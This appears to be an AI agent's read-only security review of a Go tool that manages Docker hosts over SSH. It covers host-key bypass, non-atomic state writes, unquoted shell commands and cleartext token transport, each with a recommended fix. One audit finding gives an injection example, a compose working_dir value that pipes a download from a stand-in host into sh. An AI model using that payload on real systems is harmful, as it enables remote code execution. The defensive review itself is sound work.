


# Marina Code Review — I/O & Security

**Reviewer**: `io-security`
**Scope**: SSH transport, Docker connhelper, registry client, config + state cache, Gotify client, full security posture.
**Read-only.** No code modifications made.

**Skills loaded**: `golang-pro`, `golang-performance` (referenced for I/O tuning), `golang-1-26-release`.
**Go release notes consulted**: Go 1.21, 1.23, 1.25, 1.26. Marina targets Go 1.26.2.

---

## Executive summary

The SSH control plane (`internal/ssh/ssh.go`) is well-structured: `knownhosts.New` is mandatory, `InsecureIgnoreHostKey` is absent, and there is no config toggle that bypasses verification inside Marina's direct SSH path. **However**, the Docker data path (`internal/docker/client.go`) does **not** use that hardened path — it delegates to `docker/cli/connhelper`, which shells out to the system `ssh` binary. Whatever is in `~/.ssh/config` (including `StrictHostKeyChecking no`) applies, and the README's guarantee that `known_hosts` is never disabled **does not hold structurally** for Docker traffic. That is the single largest security finding.

The file-backed `state.json` write path is **not atomic** (truncate-and-write), is racy under fan-out (`Load → modify → Save` from concurrent host goroutines), and has no temp-file + `os.Rename` pattern. A crash mid-write — or any two hosts finishing within ms of each other — corrupts or silently loses a host's snapshot. The same pattern applies to `config.Save` and `registry/cache.go`.

Additionally: SSH key paths are not tilde-expanded (the shipped `config.yaml.example` cannot be used as-is), no `0600` key-permission advisory, no command quoting on compose working-directory labels in `ComposeOp`, registry HEAD calls rely solely on caller context (no timeout on the shared HTTP client), and Gotify accepts `http://` URLs that leak the app token.

---

## Findings

### Docker data path bypasses Marina's `known_hosts` enforcement
- **Severity**: P0
- **Category**: io-security
- **Location**: `internal/docker/client.go:36-37`
- **Evidence**:
  ```go
  helper, err := connhelper.GetConnectionHelperWithSSHOpts(address, sshFlags)
  // sshFlags = ["-o", "ServerAliveInterval=15", "-o", "ServerAliveCountMax=3"]
  ```
- **Why it matters**: `connhelper` shells out to the system `ssh` binary. Every Docker API call (list, inspect, logs, compose) flows through this path, not through `internal/ssh/ssh.go`. A user with `StrictHostKeyChecking no` / `UserKnownHostsFile /dev/null` in `~/.ssh/config` (common in homelab/tailnet setups) turns the *primary data plane* into a MITM-exposed channel, while the README and `ssh.go:3` claim `known_hosts` is "always enforced — never skip it." The guarantee is not structurally enforced; it depends on the user's ambient ssh config. Anything sent (commands, compose file contents read via dial-stdio) and any output (container logs, env vars surfaced through `docker inspect`) rides that channel.
- **Recommendation**: Append explicit hardening flags to `sshFlags` so Marina forces the safe policy regardless of user ssh_config:
  ```go
  sshFlags = append(sshFlags,
      "-o", "StrictHostKeyChecking=yes",
      "-o", "UserKnownHostsFile=~/.ssh/known_hosts",
      "-o", "HashKnownHosts=no", // optional
      "-o", "BatchMode=yes",     // no password prompts during TUI fan-out
  )
  ```
  Document the override in `ssh.go`'s package comment *and* README so the claim is backed by code. Consider also dropping `connhelper` entirely and reusing `internal/ssh` + a custom `net.Conn` that calls `docker system dial-stdio` through the already-hardened `golang.org/x/crypto/ssh` client — this is the only way to *prove* the guarantee without relying on the OS ssh binary's behavior.
- **Effort**: S (flags) / L (connhelper replacement)

---

### `state.json` write is non-atomic and racy under fan-out
- **Severity**: P0
- **Category**: io-security
- **Location**: `internal/state/state.go:98-101`, `internal/state/state.go:104-114`
- **Evidence**:
  ```go
  if err := os.WriteFile(path, data, 0o600); err != nil { ... }
  ...
  func SaveHostSnapshot(hostName string, snapshot *HostSnapshot, path string) error {
      store, err := Load(path)           // ← Load
      ...
      store.Hosts[hostName] = snapshot   // ← modify
      return Save(store, path)           // ← Save
  }
  ```
  Called from `internal/actions/fetch.go:79` inside one goroutine per host:
  ```go
  _ = state.SaveHostSnapshot(host, &state.HostSnapshot{...}, "")
  ```
- **Why it matters**: Two problems, both brief-critical. (1) `os.WriteFile` truncates then writes — a crash, SIGTERM, or OOM between truncate and flush leaves a zero- or half-byte file. Next boot, `Load` returns `parse state … unexpected end of JSON input` and the TUI's offline fallback is gone, exactly when it's most needed. (2) `SaveHostSnapshot` is Load-modify-Save with no lock; when `FetchAllHosts` finishes N hosts within ms, hosts race. Classic lost update — the host that reads first but writes last silently overwrites sibling snapshots. Over time the cache shrinks and is reset every fetch. This is a **correctness concern**, not just durability.
- **Recommendation**: Write atomically to a sibling temp file and rename (`os.Rename` is atomic on POSIX / Windows `MoveFileEx` with `MOVEFILE_REPLACE_EXISTING`):
  ```go
  tmp, err := os.CreateTemp(filepath.Dir(path), ".state-*.tmp.json")
  if err != nil { return err }
  defer os.Remove(tmp.Name()) // no-op after rename
  if _, err := tmp.Write(data); err != nil { tmp.Close(); return err }
  if err := tmp.Sync(); err != nil { tmp.Close(); return err }
  if err := tmp.Close(); err != nil { return err }
  if err := os.Chmod(tmp.Name(), 0o600); err != nil { return err }
  return os.Rename(tmp.Name(), path)
  ```
  Add a package-level `sync.Mutex` around `SaveHostSnapshot` (or change the API to a single `SaveStore(store)` and have `FetchAllHosts` aggregate results before one write). The same pattern is needed in `internal/config/config.go:135` and `internal/registry/cache.go:85`.
- **Effort**: S

---

### Registry HEAD has no client-level timeout
- **Severity**: P1
- **Category**: io-security
- **Location**: `internal/registry/registry.go:73-76`
- **Evidence**:
  ```go
  desc, err := remote.Head(ref,
      remote.WithAuthFromKeychain(authn.DefaultKeychain),
      remote.WithContext(ctx),
  )
  ```
- **Why it matters**: `remote.Head` uses `go-containerregistry`'s default transport (`http.DefaultTransport` clone) — no per-request timeout, no `ResponseHeaderTimeout`, no connection reuse budget. Docker Hub's anonymous rate-limit returns **429 with `Retry-After`** or slow-responses, and Bitbucket/GHCR edges can hang mid-response. The only bound is the caller's `ctx`, which in TUI flows is `context.Background()` for checks (`internal/tui/updates.go` style callers). Under rate-limiting the update checker can stall indefinitely for a whole cycle while holding a goroutine per candidate. The file-level comment even flags this ("no persistent cache … always reflects current reality") — so the probe frequency is high, compounding the rate-limit exposure.
- **Recommendation**: Build a shared `*http.Client` with explicit timeouts and pass it via `remote.WithTransport(...)`:
  ```go
  var registryHTTP = &http.Transport{
      TLSHandshakeTimeout:   10 * time.Second,
      ResponseHeaderTimeout: 15 * time.Second,
      IdleConnTimeout:       90 * time.Second,
      ExpectContinueTimeout: 1 * time.Second,
      MaxIdleConnsPerHost:   4,
  }
  desc, err := remote.Head(ref,
      remote.WithAuthFromKeychain(authn.DefaultKeychain),
      remote.WithContext(ctx),
      remote.WithTransport(registryHTTP),
  )
  ```
  Additionally, handle `transport.Error` with `StatusCode == 429` explicitly and surface "rate-limited" as a distinct `UpdateStatus` so the UI doesn't light up every row as "check failed" during a Docker Hub throttle. (Go 1.26 `errors.AsType[*transport.Error](err)` makes this lighter than `errors.As`.)
- **Effort**: S

---

### SSH key paths are not tilde-expanded — shipped example cannot be used
- **Severity**: P1
- **Category**: io-security
- **Location**: `internal/ssh/ssh.go:106`, `internal/docker/client.go:33`, `config.yaml.example:9`, `config.yaml.example:15`
- **Evidence**:
  `config.yaml.example`:
  ```yaml
  ssh_key: ~/.ssh/id_rsa
  ssh_key: ~/.ssh/id_ed25519
  ```
  `ssh.go`:
  ```go
  keyBytes, err := os.ReadFile(cfg.KeyPath) // literal "~/.ssh/id_ed25519" → ENOENT
  ```
  `docker/client.go`:
  ```go
  sshFlags = append(sshFlags, "-i", sshKeyPath) // system ssh expands ~, Go path does not
  ```
- **Why it matters**: Two independent I/O paths consume the same field but expand it differently. A user who copies the shipped example and runs `marina ps` sees `read SSH key ~/.ssh/id_ed25519: no such file or directory` (Go path, `ssh.Exec`), while Docker traffic via connhelper works (system `ssh` expands the tilde). This is a correctness bug *and* a documentation bug: it implies Marina never uses its own SSH primitives against the configured key, OR the example has never been tested end-to-end. Either is a P1.
- **Recommendation**: Add a single expansion helper in `internal/config/config.go` and call it during `Load`:
  ```go
  func expandPath(p string) string {
      if p == "" || !strings.HasPrefix(p, "~") { return p }
      home, err := os.UserHomeDir()
      if err != nil { return p }
      if p == "~" { return home }
      if strings.HasPrefix(p, "~/") { return filepath.Join(home, p[2:]) }
      return p // "~user" not supported — document
  }
  ```
  Apply during Load to `Settings.SSHKey` and each `HostConfig.SSHKey`. Also honor `$ENV` via `os.ExpandEnv`.
- **Effort**: S

---

### No SSH key file permission check (`0600`)
- **Severity**: P1
- **Category**: io-security
- **Location**: `internal/ssh/ssh.go:106-115`
- **Evidence**: `os.ReadFile(cfg.KeyPath)` with no `os.Stat` / mode check beforehand.
- **Why it matters**: OpenSSH refuses to use a key with group- or world-readable permissions; Marina happily loads it. A user copying a key into `~/.config/marina/` with default umask (often `0644`) would not get the safety rail OpenSSH gives them. For a tool whose README emphasizes security posture, this is surprising absence.
- **Recommendation**: After `os.ReadFile`, `os.Stat` the path and reject if `info.Mode().Perm()&0o077 != 0` with a clear remediation message: `"SSH key %s has permissions %o; run `chmod 600 %s`"`. Guard the check with `runtime.GOOS != "windows"` (ACL model, permissions are cosmetic there).
- **Effort**: S

---

### `ComposeOp` interpolates the remote compose directory into a shell command without quoting
- **Severity**: P1
- **Category**: io-security
- **Location**: `internal/actions/stacks.go:96-102`
- **Evidence**:
  ```go
  cmd := fmt.Sprintf("cd %s && docker compose %s", dir, subCmd)
  return internalssh.Exec(ctx, sshCfg, cmd)
  ```
  `dir` is sourced from the compose label `com.docker.compose.project.working_dir` (`internal/registry/check.go:237`) or the user's `config.yaml` (`internal/config/config.go:33`). Neither is shell-quoted.
- **Why it matters**: The `PurgePlan` path *does* shell-quote (`shellQuote(dir)` at `stacks.go:135`), showing the team is aware of the risk — but the far-more-common `ComposeOp` path does not. A malicious compose file on a compromised host can set `working_dir: /opt/svc; curl evil | sh #` and any `marina restart`/`update`/`pull` against that stack runs arbitrary commands as the SSH user. The trust model is "remote Docker label sources come from the user," but stacks on a shared host (e.g., lab team) or pulled-from-a-registry compose files could leak this. Fixing is one-line and matches the existing pattern. Same concern applies to `ContainerOp` at `stacks.go:110` when `containerID` is ever a user-facing name rather than a hash.
- **Recommendation**: Use the existing `shellQuote` helper for the dir:
  ```go
  q := shellQuote(dir)
  if q == "" { return "", fmt.Errorf("refusing compose in %q: unsafe shell characters", dir) }
  cmd := fmt.Sprintf("cd %s && docker compose %s", q, subCmd)
  ```
  For `ContainerOp`, require `containerID` to match `^[a-zA-Z0-9][a-zA-Z0-9_.-]*$` or a hex digest; reject otherwise.
- **Effort**: S

---

### Gotify client accepts `http://` URLs — token sent in cleartext
- **Severity**: P1
- **Category**: io-security
- **Location**: `internal/notify/gotify.go:36-44`
- **Evidence**:
  ```go
  url := cfg.URL + "/message"
  req, err := http.NewRequestWithContext(ctx, http.MethodPost, url, bytes.NewReader(body))
  req.Header.Set("X-Gotify-Key", cfg.Token)
  ```
  No scheme check; `config.yaml.example:20` shows `https://` but nothing in the config loader enforces it.
- **Why it matters**: Gotify app tokens are long-lived secrets, yet the client will happily `POST` the token to any user-typed URL over HTTP — and will follow plaintext redirects via `http.DefaultClient` semantics (no `CheckRedirect` set). In a homelab context, an intermediary (e.g., a captive portal on untrusted Wi-Fi while running `marina check --notify` from a laptop) can steal the token.
- **Recommendation**: Parse the URL, require `https` unless the host is a loopback address, and reject redirects that downgrade scheme. Minimally:
  ```go
  u, err := url.Parse(cfg.URL)
  if err != nil { return fmt.Errorf("invalid gotify URL: %w", err) }
  if u.Scheme != "https" && !isLoopback(u.Hostname()) {
      return fmt.Errorf("gotify URL must be https (got %q)", u.Scheme)
  }
  client := &http.Client{
      Timeout: 10 * time.Second,
      CheckRedirect: func(req *http.Request, via []*http.Request) error {
          if req.URL.Scheme != "https" { return fmt.Errorf("refusing scheme downgrade") }
          return nil
      },
  }
  ```
- **Effort**: S

---

### `clientDone` goroutine may leak when SSH client's `Wait()` never returns
- **Severity**: P2
- **Category**: io-security
- **Location**: `internal/ssh/ssh.go:246-254`
- **Evidence**:
  ```go
  func clientDone(c *ssh.Client) <-chan struct{} {
      ch := make(chan struct{})
      go func() {
          c.Wait() //nolint:errcheck
          close(ch)
      }()
      return ch
  }
  ```
- **Why it matters**: `ssh.Client.Wait` returns only when the transport closes. If the SSH server sits on a half-open connection (NAT drop mid-operation) and TCP keepalives (15s × 3 = 45s server-side, but not on Marina's direct SSH transport — `connhelper` sets those, not `internal/ssh`) do not fire, this goroutine blocks forever. Combined with `Exec`/`Stream` being called repeatedly from the TUI tick, you accumulate one leaked goroutine per stuck host per fetch. Go 1.26's experimental `goroutineleak` profile would flag this pattern (`GOEXPERIMENT=goroutineleakprofile`); using it in CI would make the issue visible.
- **Recommendation**: Two fixes, complementary:
  1. Set `TCPKeepAlive` on the `net.Dialer` and `KeepAliveInterval/KeepAliveCountMax` on the `ssh.ClientConfig` (Go 1.23 added these fields to `*ssh.ClientConfig`):
     ```go
     clientCfg.KeepAliveInterval = 15 * time.Second
     clientCfg.KeepAliveCountMax = 3
     ```
  2. Drop `clientDone`; call `defer client.Close()` only, and for cancellation start a single goroutine that does `<-ctx.Done(); client.Close()` — but have it return as soon as the outer function returns by using a dedicated `done` channel. Current code already does this pattern but also launches `clientDone`, which is the redundant leak source.
- **Effort**: S

---

### Registry cache is file-backed but unused for persistence; misleading doc + lock hygiene
- **Severity**: P2
- **Category**: io-security
- **Location**: `internal/registry/cache.go:14,72-85`, `internal/registry/check.go:46-52`
- **Evidence**: `CacheTTL = 30 * time.Minute` and on-disk `LoadCache/SaveCache` exist, but `BuildChecker` returns `cache = nil` and comments say *"no persistent cache, no TTL"*. The file-backed path is dead code from the caller's POV, yet `cache.go` still exports `Store` / `Lookup` / `InvalidateRef` methods that any new caller could wire up incorrectly.
- **Why it matters**: Two issues: (a) documentation drift — a new contributor reading `cache.go` will think registry results are cached for 30 min, reach for `Lookup`, and reintroduce the exact staleness bug `check.go:48-52` calls out. (b) `SaveCache` writes via `os.WriteFile` (non-atomic, per the earlier finding), and the comment at `cache.go:70-72` explicitly says "does not hold the mutex" — fine for single-process single-goroutine saves but fragile and error-prone, and the comment contradicts itself vs `Store`/`Lookup` which *do* take the lock.
- **Recommendation**: Delete the on-disk half (`LoadCache`, `SaveCache`, `DefaultCachePath`), keep `Cache` as pure in-memory, rename file to `dedup.go`. If on-disk is ever desired, reintroduce with the atomic-write pattern and acquire the mutex in `SaveCache` too.
- **Effort**: S

---

### Gotify token is plaintext in YAML (documented Open Question)
- **Severity**: P2
- **Category**: io-security
- **Location**: `config.yaml.example:21`, `internal/config/config.go:72-75`
- **Evidence**: `Token` is a plain `string` field serialized with `yaml:"token"`; config file permissions rely on `0600` from `Save` — there is no keychain/secret-service integration.
- **Why it matters**: Low-severity by itself (local-user threat model), but it's not structurally defensible. Anything that can read `~/.config/marina/config.yaml` (a careless `cat`, a shell-history log, a backup tool, shoulder-surfed `less`) has the token. The README claims a strong security posture and this is the one credential Marina stores at rest.
- **Recommendation**: Short-term: document this explicitly in `config.yaml.example` with a `# Stored in plaintext — keep this file 0600` comment. Medium-term: support `token_env: MARINA_GOTIFY_TOKEN` as an alternative that reads from env, and/or a `token_file: /run/secrets/gotify` for systemd-integrated users. Long-term: consider the OS keychain (`github.com/zalando/go-keyring`) on darwin/linux/windows.
- **Effort**: S (env var) / M (keychain)

---

### No `AuthLogCallback`, no explicit `ClientVersion` — debugging auth failures is opaque
- **Severity**: P2
- **Category**: io-security
- **Location**: `internal/ssh/ssh.go:125-130`
- **Evidence**:
  ```go
  clientCfg := &ssh.ClientConfig{
      User:            user,
      Auth:            authMethods,
      HostKeyCallback: hostKeyCallback,
      Timeout:         dialTimeout,
  }
  ```
- **Why it matters**: When SSH auth fails, users see `ssh: handshake failed: ssh: unable to authenticate` with no signal on which method was tried or which key the server rejected. Adding `AuthLogCallback` and wiring it to the slog audit logger (`internal/tui/log.go`) gives operators actionable output without enabling `LogLevel=DEBUG` in system ssh. Also absent: `BannerCallback` (some homelab hosts print MOTDs that would surface issues). Minor but cheap.
- **Recommendation**:
  ```go
  clientCfg.AuthLogCallback = func(cm ssh.ConnMetadata, m string, err error) {
      if err != nil { slog.Warn("ssh auth attempt", "method", m, "user", cm.User(), "err", err) }
  }
  clientCfg.ClientVersion = "SSH-2.0-marina_" + version.Short()
  ```
- **Effort**: S

---

### `parseAddress` is ambiguous on IPv6 — `ssh://user@::1` vs `ssh://user@[::1]:22`
- **Severity**: P2
- **Category**: io-security
- **Location**: `internal/ssh/ssh.go:36-62`
- **Evidence**:
  ```go
  if strings.Contains(addr, ":") {
      h, p, err := net.SplitHostPort(addr)
      if err == nil { ... }
  }
  host = addr
  return
  ```
- **Why it matters**: A raw `::1` or `fe80::1%en0` address has multiple colons; `net.SplitHostPort` returns an error, and the code silently falls through to `host = "::1"`, then `net.JoinHostPort(host, strconv.Itoa(port))` re-wraps it — which works by accident. But `ssh://user@fe80::1:22` is ambiguous (is `22` the port or part of the address?), and the code will pick whichever interpretation `SplitHostPort` lands on. Homelab setups using Tailscale IPv6 addresses will hit this. Also: `strings.LastIndex(addr, "@")` is correct for emails-in-usernames, but combined with the lax IPv6 parse it produces confusing errors.
- **Recommendation**: Require bracketed IPv6 (`ssh://user@[::1]:22`), add a quick validation pass, and return an explicit error on ambiguity. Go 1.26 `net/url.Parse` is now stricter about colons in the host subcomponent (`urlstrictcolons=0` escape hatch removed in 1.27) — consider just using `net/url` plus a post-parse pass instead of hand-rolling.
- **Effort**: S

---

### `GetConnectionHelperWithSSHOpts` inherits the user's `SSH_AUTH_SOCK` and ssh agent selection
- **Severity**: P2
- **Category**: io-security
- **Location**: `internal/docker/client.go:36`
- **Evidence**: Marina's direct-SSH path (`ssh.go:91-102`) explicitly checks the agent has keys before using it. The connhelper path does not — `ssh` uses whatever agent socket is set, and `-i <key>` does **not** disable agent auth by default (OpenSSH tries agent keys first unless `IdentitiesOnly yes` is set).
- **Why it matters**: Correctness + least-surprise: a user with a misconfigured agent (stale keys, hardware-token agent that prompts for a touch on every command) gets different behavior between `marina ps` (connhelper → may prompt on a dongle) and any direct SSH fallback. More importantly: when `-i` is provided, users expect **that key** to be used — not an arbitrary agent key.
- **Recommendation**: When `sshKeyPath != ""`, pass `-o IdentitiesOnly=yes` so only the declared key is tried:
  ```go
  if sshKeyPath != "" {
      sshFlags = append(sshFlags, "-i", sshKeyPath, "-o", "IdentitiesOnly=yes")
  }
  ```
- **Effort**: S

---

### Modernize with Go 1.26 idioms
- **Severity**: P3
- **Category**: io-security
- **Location**: throughout
- **Evidence**: Marina targets Go 1.26.2 but uses pre-1.22/1.23 idioms in several places.
- **Why it matters**: Not a bug, but staying current is cheap and future-proofs the code.
- **Recommendation**:
  - `errors.AsType[T](err)` (Go 1.26) for cleaner registry error discrimination, replacing `errors.As(err, new(*transport.Error))`.
  - `signal.NotifyContext`'s new `context.CancelCauseFunc` (Go 1.26) to propagate which signal caused cancellation into `ssh.Exec` error messages — better than the current `fmt.Errorf("ssh exec: %w", ctx.Err())` that surfaces only "context canceled."
  - `slog.NewMultiHandler` (Go 1.26) in `internal/tui/log.go` to tee audit events to both the file handle and stderr when `MARINA_DEBUG=1`, avoiding the current single-sink design.
  - `for range N` (Go 1.22) over `for i := 0; i < N; i++` in a few locations. `go fix` (rewritten in 1.26, runs as `go fix -apply`) will sweep these automatically.
  - Enable the `GOEXPERIMENT=goroutineleakprofile` run in CI (Go 1.26) to catch the `clientDone` / fan-out leaks described above; Marina's long-lived TUI is a textbook candidate.
- **Effort**: S

---

## Diagrams

### External I/O surfaces



### Update-check fan-out (where the rate-limit exposure lives)



---

## Routed to teammates

- **runtime (task #2)** — `clientDone` goroutine leak pattern (ssh.go:246) and Load-modify-Save race in `SaveHostSnapshot` are primarily concurrency concerns; flagging in case you also want to cover them from a race-detector / goroutine-leak angle.
- **reliability (task #4)** — `state.json` atomic write and `SaveCache` non-atomic write are also a reliability issue (observability of a corrupt cache is poor — `Load` surfaces `parse state …` but nothing triggers a re-sync).
- **architect (task #1)** — the registry `cache.go` on-disk half being dead code (see finding #8) is an architecture cleanup item more than a security one; routing so it doesn't get double-covered.

## Open questions

1. Is `connhelper` load-bearing for some feature I missed (e.g., `docker context` integration) that would make replacing it with `internal/ssh` + a manual `docker system dial-stdio` too costly? If not, the Docker-path known_hosts issue is fixable at the root.
2. Does the deployment model assume operators run `marina` from a trusted workstation where their ssh_config is canonical? If yes, finding #1 could be downgraded — but it needs to be documented structurally, not implicitly.
3. Is the Gotify integration expected to work only on tailnet/LAN? If loopback + tailnet-only is the actual posture, finding #6 is P2, not P1.
